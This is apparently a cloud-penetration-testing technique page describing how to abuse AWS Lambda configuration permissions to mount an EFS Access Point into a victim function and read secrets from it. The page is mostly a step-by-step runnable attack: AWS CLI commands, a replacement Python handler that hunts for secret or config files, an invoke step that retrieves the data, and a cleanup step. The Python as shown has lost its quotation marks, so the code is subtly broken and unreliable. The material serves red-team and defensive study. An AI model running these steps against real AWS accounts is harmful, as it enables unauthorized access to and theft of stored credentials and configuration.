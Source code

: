 # AWS Lambda – EFS Mount Injection via UpdateFunctionConfiguration (Data Theft)

Abuse `lambda:UpdateFunctionConfiguration` to attach an existing EFS Access Point to a Lambda, then deploy trivial code that lists/reads files from the mounted path to exfiltrate shared secrets/config that the function previously couldn’t access.

## Requirements
- Permissions on the victim account/principal:
  - `lambda:GetFunctionConfiguration`
  - `lambda:ListFunctions` (to find functions)
  - `lambda:UpdateFunctionConfiguration`
  - `lambda:UpdateFunctionCode`
  - `lambda:InvokeFunction`
  - `efs:DescribeMountTargets` (to confirm mount targets exist)
- Environment assumptions:
  - Target Lambda is VPC-enabled and its subnets/SGs can reach the EFS mount target SG over TCP/2049 (e.g. role has AWSLambdaVPCAccessExecutionRole and VPC routing allows it).
  - The EFS Access Point is in the same VPC and has mount targets in the AZs of the Lambda subnets.

## Attack
- Variables
```
REGION=us-east-1
TARGET_FN=<target-lambda-name>
EFS_AP_ARN=<efs-access-point-arn>
```

1) Attach the EFS Access Point to the Lambda
```
aws lambda update-function-configuration \
  --function-name $TARGET_FN \
  --file-system-configs Arn=$EFS_AP_ARN,LocalMountPath=/mnt/ht \
  --region $REGION
# wait until LastUpdateStatus == Successful
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```

2) Overwrite code with a simple reader that lists files and peeks first 200 bytes of a candidate secret/config file
```
cat > reader.py <<PY
import os, json
BASE=/mnt/ht

def lambda_handler(e, c):
    out={ls:[],peek:None}
    try:
        for root, dirs, files in os.walk(BASE):
            for f in files:
                p=os.path.join(root,f)
                out[ls].append(p)
        cand = next((p for p in out[ls] if secret in p.lower() or config in p.lower()), None)
        if cand:
            with open(cand,rb) as fh:
                out[peek] = fh.read(200).decode(utf-8,ignore)
    except Exception as ex:
        out[err]=str(ex)
    return out
PY
zip reader.zip reader.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://reader.zip --region $REGION
# If the original handler was different, set it to reader.lambda_handler
aws lambda update-function-configuration --function-name $TARGET_FN --handler reader.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```

3) Invoke and get the data
```
aws lambda invoke --function-name $TARGET_FN /tmp/efs-out.json --region $REGION >/dev/null
cat /tmp/efs-out.json
```

The output should contain the directory listing under /mnt/ht and a small preview of a chosen secret/config file from EFS.

## Impact
An attacker with the listed permissions can mount arbitrary in-VPC EFS Access Points into victim Lambda functions to read and exfiltrate shared configuration and secrets stored on EFS that were previously inaccessible to that function.

## Cleanup
```
aws lambda update-function-configuration --function-name $TARGET_FN --file-system-configs [] --region $REGION || true
```

